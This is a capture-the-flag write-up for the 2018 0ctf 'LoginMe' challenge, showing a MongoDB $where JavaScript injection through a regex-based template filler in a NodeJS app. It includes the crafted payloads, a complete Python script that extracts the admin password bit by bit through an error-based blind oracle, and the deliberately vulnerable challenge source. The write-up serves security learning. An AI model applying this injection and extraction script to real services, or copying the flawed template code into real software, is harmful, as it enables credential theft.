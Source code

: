 2018 0ctf quals – LoginMe
=========================

We were given a NodeJS service and source that uses MongoDB. The `check` endpont runs a mongo query, partially
controlled by us, and if the query succeeds, it responds `ok`.

The following template is used to generate a mongo `$where` JavaScript filter:

    'if(this.username == #username# && #username# == "admin" && hex_md5(#password#) == this.'+password_column+'){\nreturn 1;\n}else{\nreturn 0;}'

where the parameters were interpolated as `JSON.stringify(req.body[k])`. At first, I was considering a solution where
we abuse the `bodyParser` to return fancy objects, but then I realized there is no way I could escape the
`hex_md5(#password#)` part.

Look at the custom template code:

    for(var k in req.body){
        var valid = ['#','(',')'].every((x)=>{return req.body[k].indexOf(x) == -1});
        if(!valid) res.send('Nope');
        check_function = check_function.replace(
            new RegExp('#'+k+'#','gm')
            ,JSON.stringify(req.body[k]))
    }

Notice that `res.send('Nope');` doesn't return the function. The code continues to run, but at this point we lost our
only bit of leaked information, so we have to conform the character blacklist. Fortunately we have RegExp control
characters enabled, so we can abuse that to replace more of the template. `|` for escape the `#` markers, and `$1` to
include match groups. I ended up replacing the whole string. In the end, the query sent to mongo looked like this:

    { '$where': '"";((this.password_wblm2gvcl0p.charCodeAt(16) >>> 0) & 1) || lolwut;""' } { '$set': { last_access: '2018-04-04 19:59:15 +02:00' } }
    
When mongo returns with an error (because it could not evaluate the expression as `lolwut` is not defined), the http
connection is closed abruptly.


Solution
========

```python3
import requests
from collections import OrderedDict

import os
import time
#os.environ["HTTP_PROXY"] = "localhost:8888"

prefix = "13fc892df79a86494792e14dcbef252a"
prefix = "---------------- 7  e   c       "

URL = "http://202.120.7.194:8082/check"
#URL = "http://localhost:8081/check"

def _test(i, c):
  try:
    resp = requests.post(URL, data=OrderedDict([
      ("|.*(.)this.*(this.password_\\w*)(.)(.|\n)*|", ";$1$1$2.charCodeAt$1{}$3 >>> {}$3 & 1$3 || lolwut;".format(i, c)),
      ("|\"|", ""),
    ]))
    return resp.text == 'ok'
  except:
    return False

def test(i, c):
  return _test(i, c) or _test(i, c)

def get_char(i):
  cc = 0
  for b in range(8):
    if test(i, b):
      cc |= 1 << b
  return cc

for i,c in enumerate(prefix):
  if c == ' ':
    print("so far: {!r}".format(prefix))
    print("         " + " "*i+"*")
    nc = get_char(i)
    if nc == 0 or nc == 255:
      raise Exception('could not find')
    prefix = prefix[:i] + chr(nc) + prefix[i+1:]
print("SOLUTION {!r}".format(prefix))
```
 

Challenge Source
================

```javascript
var express = require('express')
var app = express()

var bodyParser = require('body-parser')
app.use(bodyParser.urlencoded({}));

var path    = require("path");
var moment = require('moment');
var MongoClient = require('mongodb').MongoClient;
var url = "mongodb://localhost:27017/";

MongoClient.connect(url, function(err, db) {
    if (err) throw err;
    dbo = db.db("test_db");
    var collection_name = "users";
    var password_column = "password_"+Math.random().toString(36).slice(2)
    var password = "XXXXXXXXXXXXXXXXXXXXXX";
    // flag is flag{password}
    var myobj = { "username": "admin", "last_access": moment().format('YYYY-MM-DD HH:mm:ss Z')};
    myobj[password_column] = password;
    dbo.collection(collection_name).remove({});
    dbo.collection(collection_name).update(
        { name: myobj.name },
        myobj,
        { upsert: true }
    );

    app.get('/', function (req, res) {
        res.sendFile(path.join(__dirname,'index.html'));
    })
    app.post('/check', function (req, res) {
        var check_function = 'if(this.username == #username# && #username# == "admin" && hex_md5(#password#) == this.'+password_column+'){\nreturn 1;\n}else{\nreturn 0;}';

        for(var k in req.body){
            var valid = ['#','(',')'].every((x)=>{return req.body[k].indexOf(x) == -1});
            if(!valid) res.send('Nope');
            check_function = check_function.replace(
                new RegExp('#'+k+'#','gm')
                ,JSON.stringify(req.body[k]))
        }
        var query = {"$where" : check_function};
        var newvalue = {$set : {last_access: moment().format('YYYY-MM-DD HH:mm:ss Z')}}
        dbo.collection(collection_name).updateOne(query,newvalue,function (e,r){
            if(e) throw e;
            res.send('ok');
            // ... implementing, plz dont release this.
        });
    })
    app.listen(8081)

});
```